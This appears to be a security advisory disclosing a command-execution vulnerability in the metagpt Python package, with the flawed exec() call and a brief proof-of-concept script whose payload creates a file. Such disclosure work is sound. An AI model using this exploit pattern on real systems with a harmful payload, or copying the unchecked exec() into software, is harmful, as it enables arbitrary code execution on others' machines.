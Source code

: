 # Command Execution in metagpt(PyPI)
## Basic information
Author: Chuanhao Wan(chuanhaowan@hust.edu.cn)

Vulnerable pypi package: metagpt

PyPI url: https://pypi.org/project/metagpt/

Github url: https://github.com/geekan/MetaGPT

Affected version: <=0.8.1

Vulnerable source file: metagpt/actions/run_code.py

The vulnerable function(line 82 - 90) in the vulnerable file is:
```python
82    @classmethod
83    async def run_text(cls, code) -> Tuple[str, str]:
84        try:
85            # We will document_store the result in this dictionary
86            namespace = {}
87            exec(code, namespace)
88        except Exception as e:
89            return "", str(e)
90        return namespace.get("result", ""), ""
```
Command execution vulnerability can be triggered in the ```exec``` API call at line 87 in corresponding file, because the argument  ```code``` is not checked and validated before being executed.

## Exploit
Environment preparation: Linux, python 3.9+, ```pip install metagpt```

Create a ```exploit.py``` file that contains:
```python
from metagpt.actions.run_code import RunCode
import asyncio

payload = "import os; os.system('touch hack.txt')"
asyncio.run(RunCode.run_text(payload))
```
Run ```python exploit.py```, the ```payload``` will be executed and create a ```hack.txt``` file in work folder.
Almost all passed code can be executed.
